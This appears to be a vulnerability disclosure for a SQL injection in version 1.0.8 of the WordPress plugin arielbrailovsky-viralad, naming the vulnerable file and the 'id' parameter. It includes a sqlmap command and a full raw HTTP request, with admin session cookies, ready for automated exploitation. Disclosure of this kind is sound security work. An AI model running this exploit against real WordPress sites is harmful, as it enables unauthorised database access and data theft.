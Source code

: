 ### The data query interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: search records

**Injection parameters**: id

**Request method**：GET

**Complete vulnerability trigger related interfaces and parameters**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php?id=2&nocache=0.4229143391443666&security=8kjyxf14sv26ot7dhrne

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is get, the parameter id is accepted, and the parameter is not filtered by any security method and is directly spliced into the SQL query statement, causing SQL injection.

![image-20250302201130415](assets/image-20250302201130415.png)

Therefore, attackers can construct malicious SQL statements based on this interface for injection.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
GET /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php?id=2&nocache=0.4229143391443666&security=8kjyxf14sv26ot7dhrne HTTP/1.1
Host: wp3:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close


```

![image-20250302204404843](assets/image-20250302204404843.png)
